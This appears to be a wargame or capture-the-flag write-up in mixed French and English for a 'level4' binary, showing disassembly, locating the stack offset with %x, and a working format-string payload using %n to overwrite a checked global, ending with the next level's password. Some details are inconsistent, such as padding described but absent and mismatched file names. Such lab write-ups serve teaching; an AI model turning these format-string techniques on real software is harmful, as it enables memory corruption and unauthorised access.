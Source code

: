 ```
objdump -M intel -d level4
```

Nous observons que la fonction main appelle une fonction "n" et une "p"
Qui elle même appelle printf, qui peut être exploitée.

```
08048444 <p>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
```

```
 8048488:	e8 b7 ff ff ff       	call   8048444 <p>
 804848d:	a1 10 98 04 08       	mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01       	cmp    eax,0x1025544
```
This part is intersting, it makes a comparison, in case it's not equal it jumps to this adress 0x8049810.
The goal is to have this comparison true then we will have succeded.
To achieve this we have to change the value at 0x8049810 using printf.
La seule différence est qu'ici, la comparaison se fait avec un chiffre en "dur" :
0x8049810 -> decimal :16930116

Trouvons notre offset, nous chercherons la valeur ascii de "a" soit 61: (nous avons rajouter des %x car l'offset est plus loin que precedemment)
```
python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' | ./level4
aaaa b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
```
On observe que l'adresse se trouve en 12eme position !


M doit faire 64 bits donc nous ajouterons 60 bits de padding

adresse : \x10\x98\x04\x08" ==  (  0x080484da <+54>:	mov    0x804988c,%eax) -> adresse Pointeur 
padding:  "a" * 60 64 - 4 == 60 
modification : %16930112c  -> 16930116 - 4 (adress of m)


```
python -c 'print("\x10\x98\x04\x08" + "%16930112c" + "%12$n")' > /tmp/test12
cat /tmp/12 - | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
su level5
```

